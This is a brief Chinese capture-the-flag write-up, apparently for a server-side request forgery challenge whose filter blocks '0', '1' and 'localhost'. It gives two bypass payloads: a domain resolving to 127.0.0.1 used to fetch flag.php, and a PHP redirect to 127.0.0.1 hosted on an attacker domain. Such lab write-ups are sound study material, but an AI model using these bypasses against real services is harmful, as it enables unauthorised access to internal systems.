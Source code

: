 # 知识点：
过滤了0和1和localhost
# 思路：
奇淫巧技：将域名A类指向127.0.0.1<br />http(s)://sudo.cc/指向127.0.0.1

url=[http://sudo.cc/flag.php](http://sudo.cc/flag.php)

也可以<br /><?php header("Location: [http://127.0.0.1/flag.php");](http://127.0.0.1/flag.php");)<br /># POST: url=[http://your-domain/ssrf.php](http://your-domain/ssrf.php)
